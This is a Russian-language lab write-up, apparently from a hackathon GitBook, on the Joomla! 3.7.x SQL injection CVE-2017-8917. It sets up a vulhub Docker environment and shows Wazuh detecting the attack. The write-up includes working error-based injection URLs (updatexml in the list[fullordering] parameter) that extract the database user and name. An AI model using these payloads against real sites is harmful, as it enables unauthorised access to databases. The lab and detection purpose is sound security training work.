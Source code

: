 # CVE-2017-8917

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917)
* [https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html](https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html)
* [https://www.programmersought.com/article/11485914091/](https://www.programmersought.com/article/11485914091/)

Joomla! — система управления содержимым (CMS), написанная на языках PHP и JavaScript, использующая в качестве хранилища базы данных СУБД MySQL или другие стандартные промышленные реляционные СУБД.

Уязвимость SQL-инъекций в Joomla! 3.7.x до версии 3.7.1 позволяет злоумышленникам выполнять произвольные SQL-команды через неопределенные векторы.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/joomla/CVE-2017-8917

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна домашняя страница Joomla!

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости перейдите по данной ссылке, перед этим заменив "ваш-ip" на ip машины с уязвимой средой:

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Также вы можете узнать название базы данных, заменив "user" на "database" в ссылке

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,database()),1)
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты об эксплуатации SQL-инъекции Joomla!

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
